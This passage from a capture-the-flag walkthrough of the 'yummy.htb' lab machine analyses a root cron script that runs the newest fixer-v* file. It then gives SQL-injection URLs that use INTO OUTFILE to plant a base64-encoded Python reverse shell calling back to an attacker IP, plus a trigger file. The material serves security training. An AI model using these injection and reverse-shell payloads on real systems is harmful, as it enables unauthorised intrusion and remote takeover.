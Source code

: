 ```bash
else
    if [ -f /data/scripts/dbstatus.json ]; then
        if grep -q "database is down" /data/scripts/dbstatus.json 2>/dev/null; then
            /usr/bin/echo "The database was down at $timestamp. Sending notification."
            /usr/bin/echo "$service was down at $timestamp but came back up." | /usr/bin/mail -s "$service was down!" root
            /usr/bin/rm -f /data/scripts/dbstatus.json
        else
            /usr/bin/rm -f /data/scripts/dbstatus.json
            /usr/bin/echo "The automation failed in some way, attempting to fix it."
            latest_version=$(/usr/bin/ls -1 /data/scripts/fixer-v* 2>/dev/null | /usr/bin/sort -V | /usr/bin/tail -n 1)
            /bin/bash "$latest_version"
        fi
    else
        /usr/bin/echo "Response is OK."
    fi
fi

[ -f dbstatus.json ] && /usr/bin/rm -f dbstatus.json
```

This cronjob that runs every minute checks to see if the mysql service is active. If it is not active, it sets a status and timestamp into a `dbstatus.json` file, sends a notification to root via email and then checks for the latest version of a `fixer-v*` script and runs the latest version with `/bin/bash`.

Within the next statement, it checks to see if there is a dbstatus.json file present within the /data/scripts directory and if it contains the words "database is down". If both of those conditions are true, it sends an email to root stating that the service was down at the timestamp mentioned in the json file and then deletes it.

If the dbstatus.json file exists but doesn't contain the words "database is down", it deletes the file, assumes something went wrong in the automation and runs the latest fixer-v* script it can find in /data/scripts.

If the mysql service is up, it just says it's ok.

We can't read the fixer script because we don't know its full name. But in this case, we don't have to. From the above logic we can figure out two things. Because the website is working, the mysql service is up, so there is no dbstatus.json file currently in the /data/scripts folder. Also, it won't go into the else statements that we need. However, we can force it to by trying to write a dbstatus.json file ourselves with anything in it that doesn't say "database is down". When the file will be detected there, it will try to run the latest fixer-v* script with /bin/bash.... so we can write our own fixer-v2 or any random number with our own reverse shell in it.

To recap, we need to write 2 files:

Step 1: Write a fixer-v2.sh script with a reverse shell.
```bash
http://yummy.htb/admindashboard?s=&o=DESC;select "echo cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjE5Mi4xNjguMTUwLjEyOCIsMTIzNCkpO29zLmR1cDIocy5maWxlbm8oKSwwKTsgb3MuZHVwMihzLmZpbGVubygpLDEpO29zLmR1cDIocy5maWxlbm8oKSwyKTtpbXBvcnQgcHR5OyBwdHkuc3Bhd24oImJhc2giKSc=|base64 -d|bash" into outfile "/data/scripts/fixer-v2.sh";
```
Step 2: Write a dbstatus.json file with anything in it:
```bash
http://yummy.htb/admindashboard?s=&o=DESC;select "test" into outfile "/data/scripts/dbstatus.json";
```
